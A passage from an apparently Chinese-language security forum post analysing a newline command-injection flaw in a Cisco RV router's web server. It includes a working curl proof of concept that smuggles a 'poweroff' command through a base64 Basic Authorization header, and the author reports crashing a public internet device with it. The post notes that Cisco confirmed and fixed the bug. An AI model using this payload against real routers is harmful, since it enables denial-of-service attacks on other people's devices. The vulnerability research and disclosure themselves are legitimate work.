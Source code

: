 ```
```

经分析，它的功能主要是检索字符串，一旦检测到敏感字符，就将在该字符前面加上一个转义符`"\"`

 

比如我们构造命令`ls -all`, 被它处理后字符变成了`ls\ -all`

 

我试了各种方法，都无法绕过

 

但是我发现它并没有过滤换行符`"\n"`，这可以让我们使用换行符截断命令，但是我们只能执行一些环境变量目录下的程序，并且还不能跟参数，可能的用处是开启一些对外的接口比如 telnetd 或其它。

 

但这也是一个很严重的过滤缺陷，因为我们可以构造`"\npoweroff\n"`来使路由器关机，这直接是拒绝服务攻击了

 

![](https://bbs.pediy.com/upload/attach/202108/793907_P6K3BC9UGTARQU2.png)

#### POC

执行其他命令可根据上面 Command Inject EXP 代码，将字符拼接处的; 换成 \ n。下面只是 poweroff 命令注入。

```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Cookie: local_lang=%22English%22; ru=0' -H $'Authorization: Basic CnBvd2Vyb2ZmCg==' -H $'Upgrade-Insecure-Requests: 1' -H $'If-Modified-Since: Wed, 07 Apr 2021 11:28:48 GMT' -H $'Cache-Control: max-age=0' \
    -b $'local_lang=%22English%22; ru=0' \
    $'https://127.0.0.1/download/dniapi/'

```

在公网上找了个用 1day 打 getshell 失败 但使用 POC 成功宕机的

 

![](https://bbs.pediy.com/upload/attach/202108/793907_YFNT8N7J6PT3GK5.png)

 

![](https://bbs.pediy.com/upload/attach/202108/793907_SCPTMY9K64ZPEH2.png)

 

![](https://bbs.pediy.com/upload/attach/202108/793907_5PKF499WMZESV2R.png)

Notices
=======

目前该漏洞已经提交给了思科厂商，思科已确认了该漏洞并修复。[https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-rv-code-execution-9UVJr7k4.html](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-rv-code-execution-9UVJr7k4.html)  
![](https://bbs.pediy.com/upload/attach/202108/793907_AZEQW2YDS8FD9VK.png)

[[注意] 招人！base 上海，课程运营、市场多个坑位等你投递！](https://bbs.pediy.com/thread-267474.htm)

最后于 14 分钟前 被 b0ldfrev 编辑 ，原因：

[#固件分析](forum-128-1-170.htm) [#漏洞分析](forum-128-1-171.htm) [#漏洞挖掘](forum-128-1-178.htm) [#家用设备](forum-128-1-173.htm)

上传的附件：

*   [mini_httpd.idb.zip](javascript:void(0)) （371.90kb，0 次下载）